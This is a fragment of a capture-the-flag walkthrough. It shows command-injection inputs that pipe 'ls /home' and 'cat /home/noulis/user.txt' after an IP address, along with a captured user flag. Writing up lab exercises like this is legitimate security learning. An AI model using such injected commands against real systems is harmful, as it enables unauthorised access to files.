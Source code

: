 - Check home directory
```
8.8.8.8 | ls /home
```

![](./IMG/21.png)

- Get user flag: ``` ae69d8b809c1c5509d4c0e183ca89f74  ```
```
8.8.8.8 | cat /home/noulis/user.txt
```

![](./IMG/22.png)
